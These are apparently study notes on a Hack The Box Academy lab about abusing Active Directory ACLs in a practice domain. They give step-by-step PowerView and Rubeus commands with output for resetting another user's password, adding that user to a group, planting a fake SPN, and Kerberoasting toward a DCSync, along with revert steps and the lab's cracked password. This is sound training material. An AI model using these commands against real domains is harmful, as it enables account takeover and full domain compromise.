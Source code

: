 # ACL Abuse Tactics

## Abusing ACLs

**Recap**

We have control ver wley, we know that we can chain attack and take control over adunn who can perform DCSync attack. This would give full control over the domain and allowing us to retrive NTLM password hash for all users in domain, then escalate privileges to Domain Admin and achive persistence. The method that we are going to use is

1. use wley to change password for damundsen
2. authenticate as damunbdsen and leverage genericall rights to add a user to Help Desk Level 1 group
3. Leverage GenericAll rights in Information Technology group to take control of adunn user

To perform the first step we can create a PSCredential object.

### **Change password for damundsen**

**Creating a PSCredential Object**

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

Next, we must create a [SecureString object](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring?view=net-6.0) which represents the password we want to set for the target user `damundsen`.

**Creating a SecureString Object**

```powershell-session
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

Finally, we'll use the [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) PowerView function to change the user's password.

**Changing the User's Password**

```powershell-session
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'damundsen'
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```

* \-Credential ->pass in credential object we created

### Add damundsen to Help Desk Level 1

Next, we authenticate as the `damundsen` user and add ourselves to the `Help Desk Level 1` group.

**Creating a SecureString Object using damundsen**

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

Next, we can use the [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) function to add ourselves to the target group.

**Adding damundsen to the Help Desk Level 1 Group**

```powershell-session
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```

**Confirming damundsen was Added to the Group**

```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName

MemberName
----------
busucher
spergazed

<SNIP>

damundsen
dpayne
```

Since we have `GenericAll` rights over this account, we can perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket

we must be a member of Information Technology group, since we added damundsen to Help Desk Level 1 group, we inherited rights via nested group membership.

### **Targetted Kerberoasting**

**Creating a Fake SPN**

```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'notahacker/LEGIT' for object 'adunn'
```

We created a fake SPN called 'notahacker/LEGIT'

**Kerberoasting with Rubeus**

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap

[*] Hash : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$ <SNIP>
```

last is to crack the hash usign hashcat. After we have a cleartext password we can authenticate as adunn and perform DCSync attack.

## Revert

### **Removing the Fake SPN from adunn's Account**

```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Clearing 'serviceprincipalname' for object 'adunn'
```

### **Removing damundsen from the Help Desk Level 1 Group**

```powershell-session
PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Remove-DomainGroupMember] Removing member 'damundsen' from group 'Help Desk Level 1'
True
```

**Confirming damundsen was Removed from the Group**

```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

## Assessment

**Work through the examples in this section to gain a better understanding of ACL abuse and performing these skills hands-on. Set a fake SPN for the adunn account, Kerberoast the user, and crack the hash using Hashcat. Submit the account's cleartext password as your answer.**

<figure><img src="../../../.gitbook/assets/image (83).png" alt=""><figcaption><p>Change damundsens' password</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption><p>add damundsens to Help Desk Level 1</p></figcaption></figure>

Targetted kerberoasting

```
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

```
.\Rubeus.exe kerberoast /user:adunn /nowrap
```

<figure><img src="../../../.gitbook/assets/image (68).png" alt=""><figcaption><p>adunn:SyncMaster757</p></figcaption></figure>
